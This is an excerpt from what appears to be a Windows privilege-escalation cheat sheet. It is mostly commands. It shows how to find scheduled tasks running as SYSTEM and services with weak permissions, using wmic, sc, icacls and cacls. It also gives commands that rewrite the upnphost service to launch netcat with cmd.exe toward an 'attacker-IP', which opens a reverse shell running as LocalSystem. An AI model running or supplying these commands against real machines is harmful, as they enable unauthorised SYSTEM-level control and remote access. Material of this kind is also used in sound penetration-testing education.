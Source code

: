 This might produce a huge amount of text. I have not been able to figure out how to just output the relevant strings with findstr. So if you know a better way please notify me. As for now I just copy-paste the text and past it into my linux-terminal.

Yeah I know this ain't pretty, but it works. You can of course change the name SYSTEM to another privileged user.

cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM

**Change the upnp service binary**

    sc config upnphost binpath= "C:\Inetpub\nc.exe attacker-IP 8888 -e c:\Windows\system32\cmd.exe"
    sc config upnphost obj= ".\LocalSystem" password= ""
    sc config upnphost depend= ""


**Weak Service Permissions**
Services on windows are programs that run in the background. Without a GUI.

If you find a service that has write permissions set to everyone you can change that binary into your custom binary and make it execute in the privileged context.

First we need to find services. That can be done using wmci or sc.exe. Wmci is not available on all windows machines, and it might not be available to your user. If you don't have access to it, you can use sc.exe.

**WMIC**
    
    wmic service list brief

This will produce a lot out output and we need to know which one of all of these services have weak permissions. In order to check that we can use the icacls program. Notice that icacls is only available from Vista and up. XP and lower has cacls instead.

As you can see in the command below you need to make sure that you have access to wimc, icacls and write privilege in C:\windows\temp.

    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

Binaries in system32 are excluded since they are mostly correct, since they are installed by windows.

    sc.exe
    sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt

    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Now you can process them one by one with the cacls command.

    cacls "C:\path\to\file.exe"


#### Look for Weakness
